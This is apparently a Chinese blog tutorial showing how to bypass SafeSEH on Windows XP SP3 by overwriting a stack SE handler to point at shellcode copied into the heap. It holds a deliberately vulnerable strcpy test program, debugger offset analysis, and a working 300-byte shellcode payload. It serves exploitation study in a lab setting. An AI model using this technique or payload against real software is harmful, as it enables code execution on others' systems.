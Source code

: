 ```yaml
---
layout:		post
title:		从堆中绕过SafeS.E.H
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include <string.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

void test(char *input)
{
	char str[200];
	strcpy(str,input);
	int zero=0;
	zero=1/zero;
}

int main()
{
	char *buf=(char *)malloc(500);
	__asm int 3
	strcpy(buf,shellcode);
	test(shellcode);

	return 0;
}
```

项目->属性, 选择release版本, 禁用优化


### 0x01 分析

运行*.exe, OllyDbg自动附加调试, 调用完malloc后断下

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x00.png)

查看malloc返回的堆块地址, eax=0x003929d0

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x01.png)

直接F4跳到这里, 完成了strcpy

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x02.png)

内存区goto 0x003929d0, 这里是copy到堆的数据

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x03.png)

继续单步跟入test函数, F4跳到这里, 完成strcpy

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x04.png)

可以看到输入数据的起始栈地址0x0012fe8c

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x05.png)

定位到栈上最近的S.E.H结构, SE Handler的栈地址0x0012ffb4, 0x0012ffb4-0x0012fe8c=296 byte


### 0x02 exploit

利用safeS.E.H的缺陷, 即使S.E.H不可信, 对于指向堆区的Handler仍然会调用。
组织300 byte的shellcode, 覆盖掉栈上的SE Handler, 指向copy到堆块上的shellcode

```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\xd0\x29\x39\x00";
```

注释掉int 3断点, 再编译运行, pwn~

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x06.png)